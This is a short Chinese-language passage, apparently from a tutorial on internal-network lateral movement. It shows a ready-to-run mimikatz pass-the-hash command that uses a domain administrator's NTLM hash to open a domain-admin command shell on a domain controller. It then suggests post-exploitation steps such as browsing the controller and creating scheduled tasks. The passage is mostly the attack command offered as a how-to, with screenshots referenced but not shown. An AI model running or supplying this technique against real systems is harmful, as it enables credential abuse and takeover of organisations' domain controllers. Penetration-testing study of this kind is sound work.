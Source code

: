 

## 使用mimikatz获取域控管理员权限cmd

当我们得到域控管理员用户的NtlmHash时，比如此处我获取到管理员用户的ntlmhash为`e39c2287a10517cf1cde66bd8c7c6cf0`，执行如下命令，执行完毕后会反弹一个域控管理员权限的cmd

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.10.10.10 /ntlm:e39c2287a10517cf1cde66bd8c7c6cf0"
```

![image-20230831172415879](内网横向移动/image-20230831172415879.png)



利用域控管理员权限的cmd，可以进行更进一步的后渗透，比如`dir`查看域控目录和`schtasks`创建计划任务等等

![image-20230831220055231](内网横向移动/image-20230831220055231.png)	
